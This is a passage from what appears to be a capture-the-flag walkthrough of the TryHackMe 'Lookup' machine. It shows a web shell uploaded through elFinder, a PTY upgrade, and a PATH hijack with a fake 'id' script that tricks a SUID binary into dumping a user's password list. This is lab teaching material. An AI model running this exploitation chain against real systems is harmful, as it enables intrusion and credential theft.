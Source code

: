 ```
/.htpasswd (Status: 403) [Size: 281]  
Progress: 4614 / 4615 (99.98%)  
===============================================================  
Finished  
===============================================================

```
![](https://miro.medium.com/v2/resize:fit:875/1*dHvFL1AFIwpLipFpaoIjsg.png)

[http://files.lookup.thm/elFinder/php/](http://files.lookup.thm/elFinder/php/)

![](https://miro.medium.com/v2/resize:fit:875/1*5ysHzyumnRkkpkeFBhud2w.png)

listener

![](https://miro.medium.com/v2/resize:fit:875/1*rckBRhw9muj4wxSm-vJhMg.png)

uploaded shell.php

![](https://miro.medium.com/v2/resize:fit:875/1*wYcbQOsw8R4TmzO4G8drmw.png)

My shell.php, own!!!

![](https://miro.medium.com/v2/resize:fit:875/1*biNV1Iv5iU-gMiY-gKg_DQ.png)

Aha!

```
$ id  
uid=33(www-data)gid=33(www-data) groups=(www-data)  
$ pwd  
/  
$ which python3  
/usr/bin/python3  
$ python3 -c "import pty;pty.spawn('/bin/bash')"  
www-data@lookup: export TERM=xterm  
www-data@lookup:/$  
...  
  
www-data@lookup:/home$ echo '#!/bin/bash' > /tmp/id  
echo '#!/bin/bash' > /tmp/id  
www-data@lookup:/home$ echo 'echo "uid=33(think) gid=33(think) groups=(think)"' >> /tmp/id  
uid=33(think) gid=33(think) groups=(think)"' >> /tmp/id  
www-data@lookup:/home$ chmod +x /tmp/id  
chmod +x /tmp/id  
www-data@lookup:/home$ export PATH=/tmp:$PATH  
export PATH=/tmp:$PATH  
www-data@lookup:/home$ /usr/sbin/pwm  
/usr/sbin/pwm  
[!] Running 'id' command to extract the username and user ID (UID)  
[!] ID: think  
jose1006  
jose1004  
jose1002  
jose1001teles  
jose100190  
jose10001  
jose10.asd  
jose10+  
jose0_07  
jose0990  
jose0986$  
jose098130443  
jose0981  
jose0924  
```